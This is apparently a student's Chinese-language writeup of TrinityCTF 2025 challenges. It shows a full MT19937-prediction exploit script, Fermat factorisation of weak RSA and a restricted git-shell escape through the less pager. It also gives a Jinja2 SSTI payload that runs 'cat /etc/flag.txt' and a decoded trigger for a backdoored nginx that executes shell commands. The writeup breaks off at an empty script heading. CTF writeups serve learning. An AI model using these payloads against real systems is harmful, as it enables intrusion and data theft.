TrinityCTF 2025 Writeup
一个零 CTF 经验的大二老登参加了校内的面向新生的 CTF 比赛，
这是他的 Writeup 发生的变化：
🧩 MISC
Misc01-CTF_101
欢迎参赛TrinityCTF!
作为一名参赛选手你首先需要看看靶场, 看看公告, 确保了解比赛规则详情!
善用互联网和工具, 希望你能在这场比赛中学习, 练习; 或是切身感受下CTF赛事的氛围与挑战
如果你发现你不会的还挺多, 那就对了 我们每一名队员都是这么成长起来的, 赛后我们也会组织WP讲解, 欢迎来听 如果你发现你都会, 啊那太好了. 请在这场比赛尽情杀题然后大佬带飞我们战队把😆
最后祝各位解题顺利.
然后就要填 Flag 了，注意到在几天前发布的 TrinityCTF 2025 coming 赛事预告中有：
最后祝大家参赛愉快ZmxhZ3toNHBweV9oNGNrMW41IX0=取得好成绩
Base64 一下被划线的乱码得到 Flag
Misc02-搜打撤
提供了一个 py 文件和摩斯电码本，py 文件运行后是一个文字冒险游戏，在游玩过程中可以获得flag碎片，实际上可以直接翻 py 文件：
| WORK_SECRET = os.getenv('WORK_SECRET', 'dzBySw==') # Base64: w0rK
COMBINE_SECRET = os.getenv('COMBINE_SECRET', 'YzBtYkluZSBhbDE=') # Base64: c0mbIne al1
PASSWORD1 = os.getenv('PASSWORD1', 'TkpVZXI=') # Base64: NJUer
PASSWORD2 = os.getenv('PASSWORD2', 'UEtVZXI=') # Base64: PKUer
FLAG_SECRET = os.getenv('FLAG_SECRET', 'ZmxhZw==') # Base64: flag
# 省略一部分内容...
def exit_gate():
"""校门撤离点"""
print("祝贺你得到了想要的东西。按照通顺的语言习惯组合即可。不要忘记在单词之间加入短下划线_哦~")
return 1
|
把三个 secret 按照语序拼接得到 Flag
Misc03-Watch the Star
提供了一个 coords.txt 记录了若干个点坐标，以及一个 star.png 绘制了部分点的位置和连线
| coords.txt |
|---|
| 6,43
7,43
8,43
9,43
10,43
11,43
12,43
13,43
# 省略更多的坐标点
|
用 matplotlib 库绘图，发现连线没有任何线索，但是点的排布很有意思（特别是↖↗↙三个角的暗示）

把点替换成大小为1的方格，删去连线，得到：

是个二维码，扫描得到 flag:bWlzY19maW5pc2g=， Base64 一下得到 Flag
Misc04-猫猫（Unfinished）
图片里藏了一个 zip 文件用 binwalk 分离，压缩包里有 flag.txt 但是解压需要密码
对剩下的纯图片内容 zsteg 一下发现下面的内容：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15 | imagedata .. text: ".55/4.,-)"
b1,g,lsb,xy .. text: "-M$ED%LtLm\newlineuT"
b1,b,lsb,xy .. text: "5m,5$5l4ee}----("
b2,r,lsb,xy .. text: "D@@EDkDD"
b2,rgb,lsb,xy .. text: "L0DDTAA@E"
b2,rgb,msb,xy .. text: "\n{<g[6e{"
b3,g,msb,xy .. file: OpenPGP Secret Key
b4,r,lsb,xy .. text: "2222\"2R2#5TTDDTTUETFfvvvvgvvvv"
b4,r,msb,xy .. text: "];;;;;;{"
b4,g,lsb,xy .. text: "223#323323ETTEUUTggTvvggvgwgvy"
b4,b,lsb,xy .. text: "wvfgwvvfwv"
b4,rgb,lsb,xy .. text: "A62s&3p5"
b4,rgb,msb,xy .. text: ",Fb$Nb$N"
b4,bgr,lsb,xy .. text: "QB63r6 s"
b4,bgr,msb,xy .. text: "J&dB.dB."
|
不会解，遂放弃
（后记：压缩包的密码原来可以爆破）
（赛后官方 Sol 好魔幻）
Misc05-填填问卷就能拿分谢谢喵
字面意思，这我还能说什么呢，太性情了哥们，flag 没保存所以不贴了
ps: 我拿的一血🤓
🔒 CRYPTO
Crypto01-RSA (Unfinished)
一个菜单环境，提供了离线的 Python 搭建：
| task.py |
|---|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32 | from Crypto.Util.number import bytes_to_long
import os, signal
import utils
signal.alarm(600) # 600s 的限时，也就是 TLE 机制（？
assert utils.PoW() # 一个需要暴力算 sha256 的工作量证明
sec = os.urandom(16)
MENU = '''
[E]ncrypt
[G]etFlag
[Q]uit
'''
while True:
print(MENU)
inp = input(">").lower()
try:
if inp == "q": # q 键退出
raise Exception
elif inp == "e": # e 键会提供一个用相同的公钥指数 e=4027 和明文，用不同的模数加密的结果
rsa = utils.RSA(nbits=1024)
c = rsa.encrypt(bytes_to_long(sec))
print(f"{rsa.pub = }\n{c = }")
elif inp == "g": # g 键用解出的明文换取 flag
assert sec == bytes.fromhex(input("sec>").strip())
utils.solve()
raise Exception
except:
break
|
赛时考虑使用 Håstad广播攻击，需要收集 4097 组数据但是被 600s 时限卡住了（600s 只能收集 1k 组不到的数据，而 1k 组数据破解的概率太低了），遂 giveup
Crypto02-PQC 和 Crypto03-ECC 都没碰，不会离散数学
Crypto04-PRNG
四道 Crypto 的环境搭建都是相似的：
| task.py |
|---|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42 | import signal
import utils
signal.alarm(600)
assert utils.PoW()
casino = utils.CASINO() # 构建了一个 casino 猜数游戏
# 初始有一定的分数
MENU = '''
[R]efresh
[H]it
[S]tand
[Q]uit
'''
while True:
print(MENU)
inp = input(">").lower()
try:
if inp == "q": # q 键退出游戏
raise Exception
elif inp == "r": # r 键重置游戏
casino.refresh()
elif inp == "h": # h 键进行猜数，要猜的数是随机数
card = casino.card()
if (card & 0xFFFF) == int(input("check>")):
casino.score += 1 # 猜对了加一分
print("Positive")
else:
casino.score -= 2 # 猜错了扣两分
print("Negative")
print(f"{card = }") # 并且会告知正确的数是什么
elif inp == "s": # 在得分 ≥ 9999 时按下 s 键获得 Flag
assert casino.score >= 9999
utils.solve()
raise Exception
assert casino.score > 0 # 分数归零时退出游戏
except:
break
|
目前掌握的信息不够，所以我们需要在另一个下发的文件中获取更多信息：
| utils.py（节选） |
|---|
1
2
3
4
5
6
7
8
9
10
11
12
13 | class CASINO:
def __init__(self): # 初始化
self.key = os.urandom(16) # 生成一个密钥 key
self.rng = random.Random() # 创建一个随机数生成器
self.refresh() # 进行一次刷新操作
def refresh(self): # 刷新操作
seed = int(pow(time.time(), 0.93)) # 基于当前时间的种子 seed（一个伏笔）
self.rng.seed(bytes_to_long(self.key) + seed) # 随机数生成器基于 key + seed 生成新的生成器种子
self.score = 0x4c4 # 初始分数为 610 * 2 分
def card(self): # 发牌操作
return self.rng.getrandbits(32) # 利用随机数生成器生成一个 32 位随机数
|
random.Random() 说明程序使用了 Python 自带了的随机数计算：伪随机数生成器 mt19937。
这个随机数算法对于相同的种子总会给出相同的输出结果，且算法上可以逆向实现随机数预测，前提是先要获取连续的 624 个 32 位的已生成的随机数（这么多的数据足够找到循环点），这里考虑使用 randcrack 库
然而，初始分数 610 * 2 ，但是 624 次错误的猜数会扣除 624 * 2 的分数，所以我没有办法连续猜错 624 次，必须要猜对若干次
在观察了四道 Crypto 题目的框架后，我发现只有第四题提供了重置操作 r。为什么要提供一个 r 键重置？虽然 r 键可以重置得分，但是也会重置 self.rng.seed，也就是随机数生成器的种子，看上去 r 操作没有作用
除非 r 操作并不是一定会重置随机数生成器的种子？
仔细看一下随机数生成器的种子是如何被计算的：
| seed = int(pow(time.time(), 0.93)) # (int)(时间戳 ^ 0.93)
self.rng.seed(bytes_to_long(self.key) + seed) # key + seed，其中 key 不会随着 r 操作改变，改变 seed
|
对于 (int)(时间戳 ^ 0.93) 这一步，我们不难发现，当两个时间戳非常接近时，计算得到的种子是完全相同的
比如我现在查询时间戳得到的数值是 1759734250，不难计算
(int)1759734250^0.93 == (int)1759734252^0.93 == 396520633，得到了 3s 的窗口期
如果刷新的时间恰当，最大可以争取约 5s 的窗口期，这段时间内的 r 刷新操作不会改变 seed 值
于是我们得到了一个自动化方案：
- 解决 PoW 问题（写一段暴力计算的程序即可）
- 先答错获取前十个随机数，保存（这里的十次实际上可以更少一些，这取决于网速）
r 刷新一次- 用之前获取的前十个随机数去回答前十次猜数问题（不会扣分，而且会加分）
- 继续猜错直到获取了 624 个随机数（可以保证分数不会减到 0 以下）
- 现在 mt19937 的随机数可以完全预测了，持续猜对数字直到分数超过 9999
s 获取 Flag！
用 AI 辅助写了一段自动化的 Python 程序（我不会 Python）
| exp.py |
|---|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
120
121
122
123
124
125
126 | import hashlib
import string
import itertools
from pwn import *
from randcrack import RandCrack
def solve_pow(prefix, target_hash, length=4):
# 爆破 XXXX
for comb in itertools.product(string.ascii_letters + string.digits, repeat=length):
attempt = ''.join(comb)
h = hashlib.sha256((attempt + prefix).encode()).hexdigest()
if h == target_hash:
return attempt
return None
def main():
# 连接信息：
# xxx.xxx.xxx.xx:xxxxx
host = '123.456.789.01'
port = 12345
# 第一步：接收 PoW 题目
r = remote(host, port)
line = r.recvuntil(b'= ').decode()
target_hash = r.recvline().strip().decode()
prefix = line.split('+')[1].split(')')[0] # 提取 iMwfwaWvfBil7B9S 这样的后缀
print(f"PoW: sha256(XXXX+{prefix}) = {target_hash}")
# 爆破 PoW
pow_sol = solve_pow(prefix, target_hash)
if pow_sol is None:
print("PoW failed")
return
print(f"PoW solution: {pow_sol}")
r.sendlineafter(b'>', pow_sol.encode())
# 进入主循环
rc = RandCrack()
# 第一阶段：收集前10个随机数
first_10_cards = []
for i in range(10):
r.sendlineafter(b'>', b'H')
# 猜错（输入 0 ）
r.sendlineafter(b'check>', b'0')
resp = r.recvline()
if b'Negative' in resp:
line = r.recvline()
# 解析 card = 12345678
card_val = int(line.decode().split('=')[1].strip())
print(f"[{i+1}] card = {card_val}")
first_10_cards.append(card_val)
else:
# 前十次都有猜对的，你应该去买彩票，你不准做题了
return
# r 重置
r.sendlineafter(b'>', b'R')
# 第二阶段：重新收集624个随机数，前10次用已知的正确值猜测
score = 610 * 2 # 初始分数
# 前10次使用已知的正确值
for i in range(10):
r.sendlineafter(b'>', b'H')
# 使用之前收集到的正确低16位
correct_low16 = first_10_cards[i] & 0xFFFF
r.sendlineafter(b'check>', str(correct_low16).encode())
resp = r.recvline()
if b'Positive' in resp:
score += 1
print(f"[{i+1}] Correct guess! Score: {score}")
# 提交给 RandCrack（32 位）
rc.submit(first_10_cards[i] & 0xFFFFFFFF)
else:
# 网速较差/时间窗口没卡好
score -= 2
print(f"[{i+1}] Unexpected Negative!")
return
# 继续收集剩余的614个随机数
for i in range(10, 624):
r.sendlineafter(b'>', b'H')
# 猜错（输入 0）
r.sendlineafter(b'check>', b'0')
resp = r.recvline()
if b'Negative' in resp:
score -= 2
line = r.recvline()
# 解析 card = xxxxxxxx
card_val = int(line.decode().split('=')[1].strip())
print(f"[{i+1}] card = {card_val}")
# 提交给 RandCrack（32 位）
rc.submit(card_val & 0xFFFFFFFF)
else:
# 你知道我要说什么
return
# 第三阶段：全部猜对直到分数足够
while score < 9999:
# 预测下一个随机数
predicted = rc.predict_getrandbits(32)
low16 = predicted & 0xFFFF
r.sendlineafter(b'>', b'H')
r.sendlineafter(b'check>', str(low16).encode())
resp = r.recvline()
if b'Positive' in resp:
score += 1
print(f"Score: {score}")
else:
score -= 2
print(f"Wrong prediction! Score: {score}")
# 应该不会出错
if score <= 0:
print("Score <= 0, failed")
return
# 分数达到 9999，Stand
r.sendlineafter(b'>', b'S')
Flag = r.recvline()
print(Flag)
r.close()
if __name__ == '__main__':
main()
|
跑一遍程序即可拿到 Flag
| flag{303191d0-227d-440d-8cf6-7a45f378757e}
|
（个人建议把 600s 时限放宽一点，我一开始连接的校内 VPN 在得到两千多分的时候就超时退出了😡）
Crypto05-EZRSA
提供了一个 Python 文件，翻代码发现 flag = b"flag{GUESS_ME_DUDE???}"，结束本题
末尾注释提供了一些 RSA 相关的数据：
| n = 1761136274297027039963230651989531722606611852591964400481006338727378865369012452786479495394114231817718239
e = 65537
c = 1230891216923086590416832066481981391436300928059089913296665775664238914246508186217218568669712406212992089
|
我们需要拆解 n 这个大数（n = p * q），而不幸的是 factordb 拆不开这个数，注意到提供的代码中有这样的生成操作
1
2
3
4
5
6
7
8
9
10
11
12
13
14 | p_bits = 180 # p 是 180 位的数字
close_offset_max = 1 << 20
low = 1 << (p_bits - 1)
high = (1 << p_bits) - 1
a = random.randrange(low, high)
p = next_prime(a) # 生成 180 位的随机素数 p
offset = random.randint(1000, close_offset_max) # 生成一个偏移量，在 1000 ~ 2^20 之间
q = next_prime(p + offset) # p 加上偏移量后调整生成素数 q
if p == q:
continue
n = p * q
|
也就是说 p,q 的位数大致固定，且 q - p 差值比较小，考虑使用 Fermat 质数分解算法：
| def fermat_factorization(n):
a = gmpy2.isqrt(n)
while True:
b2 = a * a - n
if gmpy2.is_square(b2):
b = gmpy2.isqrt(b2)
p = a - b
q = a + b
return int(p), int(q)
a += 1
|
带入到具体数据跑一遍程序就可以拿到 Flag
| flag{RSA_is_weak_when_p_approx_q}
|
💥 PWN
PWN 题我都不会写，对不起出题者😭
(Update: 网络攻防实战课程学到了 PWN，应该不至于一点不会了)
🕸️ WEB
Web01-逃离
在一次渗透测试中，你通过一个文件读取漏洞得到了用户名 git 的 SSH 私钥
使用给定的 SSH 私钥和用户名 git 登录指定的地址，从 Gitshell 里逃离
flag 在 /home/git 下
目标是从高度受限的 Gitshell 环境中想办法来到普通 Shell 环境中，读取 /home/git 的内容
先用 SSH 试探一下（id_rsa 是下发的私钥文件）：
| > ssh -i id_rsa git@xxx.xxx.xxx.xx -p 12345
fatal: unrecognized command ''
Connection to xxx.xxx.xxx.xx closed.
|
坏透了，这个 Git 服务器不允许交互式输入指令，我只能在 SSH 请求时附带我的指令：
| > ssh -i id_rsa git@xxx.xxx.xxx.xx -p 12345 "help"
fatal: unrecognized command 'help'
|
help 都不能用？经过测试和查询，只有 git receive-pack git upload-pack git upload-archive 可以使用，那就找个仓库上传些什么东西做个手脚：
| > ssh -i id_rsa git@xxx.xxx.xxx.xx -p 12345 "git upload-pack '/home/git'"
fatal: '/home/git' does not appear to be a git repository
|
又经过测试，这个环境里面没有 git 仓库（至少我没找到），我决定 --help 一下
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21 | > ssh -i id_rsa git@xxx.xxx.xxx.xx -p 12345 "git upload-pack '--help'"
GIT-UPLOAD-PACK(1) Git Manual GIT-UPLOAD-PACK(1)
NAME
git-upload-pack - Send objects packed back to git-fetch-pack
SYNOPSIS
git-upload-pack [--[no-]strict] [--timeout=<n>] [--stateless-rpc]
[--advertise-refs] <directory>
DESCRIPTION
# ... 太多了不贴了
SEE ALSO
gitnamespaces(7)
GIT
Part of the git(1) suite
Git 2.12.2 12/25/2020 GIT-UPLOAD-PACK(1)
> # 直接退出 SSH 连接了
|
这是我目前成功运行的唯一一条指令，输出页面让我想到了 man 指令，印象里帮助页面应该用 less 分页器打开，而 less 分页器 有 !sh 的操作可以打开子 shell 实现逃逸。查询得知需要在 SSH 连接时加上 -t 参数强制分配伪终端：
| > ssh -t -i id_rsa git@xxx.xxx.xxx.xx -p 12345 "git upload-pack '--help'"
# 用 less 打开了帮助文档，输入 !sh 进入子 shell
$ cat /home/git/flag.txt
Trinity{GIT_5HE11_byp@ss_OOOOO_060524592cce19c7}$
|
获得了 Flag
| Trinity{GIT_5HE11_byp@ss_OOOOO_060524592cce19c7}
|
Web02-逻辑鬼才 没有进展，不懂 HTTPDigestAuth :(
Web03-Hello Flask!
我学会的第一行代码就是cout<<"Hello Flask!"<<endl;
flag 在 /etc/flag.txt
访问：http://ip:port/?name=123
先按照他说的访问一下 http://ip:port/?name=123，HTML 页面只有一句 Hello 123
STFW 了解到 Flask 是 Python 的 Web 框架，使用 Jinja 模板引擎，又不小心搜到了 SSTI注入 - Hello CTF 了解了一下
一般我们会在疑似的地方尝试插入简单的模板表达式，如 {{7*7}} {{config}}，看看是否能在页面上显示预期结果，以此确定是否有注入点。
插入一下试试： http://ip:port/?name={{7*7}}，HTML 页面输出 Hello 49，看来有注入点
经过和 AI 的反复修改后得到了下面的模板：
| {{cycler.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/flag.txt').read()}}
# 从 cycler 对象开始（Jinja2模板的默认对象），通过 __init__ 获取初始化方法， __globals__ 获取全局命名空间， __builtins__ 获取内置函数， __import__('os') 导入os模块，最终调用 popen() 执行系统命令，read() 进行读取，输出在 HTML 页面上
|
得到 Flag
| Trinity{ssti_is_Funnnnnny!422144319e480db2}
|
🔍 RE
RE01-带后门的nginx
描述： xx大学近日遭受一起 APT 攻击：黑客组织通过购买搜索引擎推广，将其精心伪造的 nginx 官网置于搜索结果首位。某运维人员因而下载了该网站上被植入后门的 nginx。服务上线后，黑客组织通过该后门长期隐蔽地从内网盗取信息。你的任务是通过逆向工程找到该后门的访问方式，并复现该后门来读取服务后台的 flag。
该后门为命令执行后门，并被符合要求的 HTTP 请求触发。找到触发方式后，你可以构造任意命令。
读取 flag 可以使用反弹 shell，也可以把 flag 文件拷贝到网站根目录。其中 flag 位于 /flag，nginx 网站位于 /nginx/html。
下发了一个 nginx 文件，使用 DIE 检测为 ELF64 ，使用 Ghidra 进行逆向，分析逆向内容。
因为我不熟悉 nginx 反编译后的内容，偶然搜索了一下含 "flag" 的字符串

找到了这个有趣的内容：
| s_This_is_a_fake_flag!_001b8f5c XREF[3]: ngx_http_static_handler:0018a078
ngx_http_static_handler:0018a087
001dd540 (*)
001b8f5c 54 68 69 ds "This_is_a_fake_flag!"
73 5f 69
73 5f 61
|
我相信假 flag 不可能一点用都没有，于是定位到调用了这部分字符串的函数 ngx_http_static_handler，下面截取了有用的内容：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24 | __s = g_flag; // g_flag 的内容就是 "This_is_a_fake_flag!"
// 将 password 硬编码为神秘值，然后与 g_flag 进行异或运算（解密）得到新的 password
builtin_memcpy(password,"#1\x03\x17.\x10\n\x135/\x16$\r6<\x0e ,\x13F",0x14);
for (uVar16 = 0; sVar4 = strlen(__s), uVar16 < sVar4; uVar16 = uVar16 + 1) {
password[uVar16] = password[uVar16] ^ __s[uVar16];
}
nVar5 = ngx_http_arg(r,password,uVar16,&arg_value); // 从HTTP请求中获取 password 这个参数
// 返回 0 表示找到了这个参数
if ((nVar5 == 0) && (arg_value.len - 1 < 0x3ff)) {
_Var2 = fork();
if (_Var2 == 0) {
// 子进程执行
iVar3 = getrlimit64(RLIMIT_NOFILE,(rlimit64 *)&rlim);
// 关闭所有文件描述符
for (; __fd < iVar18; __fd = __fd + 1) {
close(__fd);
}
// 执行系统命令，也就是说我可以构造 http://ip:port/?password=cp /flag /nginx/html/flag.txt
// 把 flag 文件拷贝到网站根目录
execl("/bin/sh","sh",&DAT_001b8f1b,local_528,0);
exit(0x7f);
}
}
|
对 "#1\x03\x17.\x10\n\x135/\x16$\r6<\x0e ,\x13F" 与 "This_is_a_fake_flag!" 进行异或解密得到 password = wYjdqyyLTppEfSchLMtg
先 http://ip:port/?wYjdqyyLTppEfSchLMtg=cp /flag /nginx/html/flag.txt 把 flag 文件拷贝到网站根目录，然后 http://ip:port/flag.txt 就能获得 Flag
| flag{17a7f10e-f07c-4e3f-a080-8b91d94245b4}
|
RE02-ITSC正版Office激活工具
描述： 这是xx大学 ITSC 的会员制 Office 激活工具，必须每个月上交 114514 块钱网费才能获得激活码。你的任务是通过逆向工程破解该工具，找到激活码的生成方式，并生成用户 itsc 的激活码。
获得激活码后，在外面包裹 flag{} 提交，如激活码是 0123456789abcdef，则提交 flag{0123456789abcdef}。
我已经等不及了，快点端上来罢
下发了一个 OfficeActivationTool.exe 和一堆 Qt6 的依赖，不需要用 DIE 分析了
打开 exe 文件弹出一个激活窗口：

注意到按下按钮之后弹出 “激活失败” 的回答，考虑计算激活码的函数出现在 “按下按钮” ，用 Ghidra 进行逆向，关键词 click 搜索

对 on_activationButton_clicked 函数进行分析，节选了部分内容：
（Qt对应的反汇编内容易读性相比上一题更好一些）
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44 | // 激活码必须是32位十六进制字符
local_128.m_data = "^[0-9a-fA-F]*$";
local_128.m_size = 0xe;
QString::fromUtf8(&local_68);
QRegularExpression::QRegularExpression(&hexCodePattern,&local_68,0);
// 账户名必须只能包含字母/数字/下划线且不以数字开头
local_128.m_size = 0x18;
local_128.m_data = "^[_a-zA-Z][_0-9a-zA-Z]*$";
QString::fromUtf8(&local_68);
QRegularExpression::QRegularExpression(&accountPattern,&local_68,0);
// 检查激活码格式
if (((cVar3 != '\0') && (codeText.d.size == 0x20)) && (accountText.d.size != 0)) {
// 为账户名添加了固定的后缀
local_130 = 0xb;
local_138 = "@nju.edu.cn";
QString::append(&accountText,&local_138); // append
// 激活码十六进制转字节数组
QString::toUtf8_helper(&local_88); // to utf8
QByteArray::fromHex((QByteArray *)&local_68); // from hex
// 对添加后缀之后的账户名进行哈希计算，Qt的哈希加密默认为 md5
QString::toUtf8_helper(&local_88);
local_128.m_size = local_88.d.size;
local_128.m_data = (storage_type *)local_88.d.ptr;
QCryptographicHash::hash(&local_68,(Algorithm)&local_128); // hash
// 比较哈希结果与激活码
local_128.m_data = local_68.m_data;
local_128.m_size = local_58;
local_148.m_size = qVar2;
local_148.m_data = psVar1;
iVar4 = QtPrivate::compareMemory(&local_128,&local_148); // compareMemory
if (iVar4 == 0) {
pQVar5 = *(QString **)(this->ui + 0x58);
QString::QString((QString *)&local_68,(QChar *)&DAT_140006196,4); // "成功"
QLabel::setText(pQVar5);
this->activated = true;
} else {
pQVar5 = *(QString **)(this->ui + 0x58);
QString::QString((QString *)&local_68,(QChar *)&DAT_1400061a0,4); // "失败"
QLabel::setText(pQVar5);
this->activated = false;
}
}
|
写一个 Python 函数计算一下：
| exp.py |
